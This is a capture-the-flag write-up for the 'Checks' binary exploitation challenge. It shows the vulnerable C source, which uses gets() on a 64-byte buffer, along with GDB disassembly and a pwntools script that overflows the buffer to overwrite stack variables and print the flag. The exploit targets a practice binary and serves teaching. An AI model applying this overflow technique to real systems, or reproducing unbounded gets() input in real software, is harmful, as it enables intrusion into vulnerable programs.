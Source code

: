# Checks

### Category: Binary Exploitation

### Description

I made a program to protect my flag. On the off chance someone does get in, I added some sanity checks to detect if something fishy is going on. See if you can hack me at `/problems/2021/sanity_checks`  on the shell server, or connect with `nc shell.actf.co 21303`.

### Solution
In this challenge we have the source code, and we can see quite easily that the flag is printed when all the conditions are true.

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void main(){
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);

    char password[64];
    int ways_to_leave_your_lover = 0;
    int what_i_cant_drive = 0;
    int when_im_walking_out_on_center_circle = 0;
    int which_highway_to_take_my_telephones_to = 0;
    int when_i_learned_the_truth = 0;

    printf("Enter the secret word: ");

    gets(&password);

    if(strcmp(password, "password123") == 0){
        puts("Logged in! Let's just do some quick checks to make sure everything's in order...");
        if (ways_to_leave_your_lover == 50) {
            if (what_i_cant_drive == 55) {
                if (when_im_walking_out_on_center_circle == 245) {
                    if (which_highway_to_take_my_telephones_to == 61) {
                        if (when_i_learned_the_truth == 17) {
                            char flag[128];

                            FILE *f = fopen("flag.txt","r");

                            if (!f) {
                                printf("Missing flag.txt. Contact an admin if you see this on remote.");
                                exit(1);
                            }

                            fgets(flag, 128, f);

                            printf(flag);
                            return;
                        }
                    }
                }
            }
        }
        puts("Nope, something seems off.");
    } else {
        puts("Login failed!");
    }
}
```
Using *GDB*, we can check where local variables are declared in the stack:
```
0x00000000004011b5 <+31>:	mov    rax,QWORD PTR [rip+0x2ee4]        # 0x4040a0 <stderr@GLIBC_2.2.5>
0x00000000004011bc <+38>:	mov    esi,0x0
0x00000000004011c1 <+43>:	mov    rdi,rax
0x00000000004011c4 <+46>:	call   0x401040 <setbuf@plt>
0x00000000004011c9 <+51>:	mov    DWORD PTR [rbp-0x4],0x0
0x00000000004011d0 <+58>:	mov    DWORD PTR [rbp-0x8],0x0
0x00000000004011d7 <+65>:	mov    DWORD PTR [rbp-0xc],0x0
0x00000000004011de <+72>:	mov    DWORD PTR [rbp-0x10],0x0
0x00000000004011e5 <+79>:	mov    DWORD PTR [rbp-0x14],0x0
0x00000000004011ec <+86>:	lea    rdi,[rip+0xe15]        # 0x402008
0x00000000004011f3 <+93>:	mov    eax,0x0
0x00000000004011f8 <+98>:	call   0x401050 <printf@plt>
```
Analyzing disassembled instructions, we can understand that integer local variables are higher in the stack, and we can overwrite them performing an overflow on `password` buffer. We need to script the interaction, so we can give the program `\x00` to terminate the string and pass the `strcmp`. The payload is built using the correct password:

```python
import struct
from pwn import *

host = "shell.actf.co"
port = 21303
conn = remote(host, port)

ways = 50
what = 55
when1 = 245
which = 61
when2 = 17

payload = b"password123" + b"\x00" +  b"a"*64 + p32(when2) + p32(which) + p32(when1) + p32(what) + p32(ways)
f = open("payload.input", "wb")
f.write(payload)
f.close()

print(conn.recv(1000, 1))
conn.sendline(payload)
print(conn.recvline())

conn.interactive()
```
When the script is executed, the program print the flag

### Flag:
`actf{if_you_aint_bout_flags_then_i_dont_mess_with_yall}`

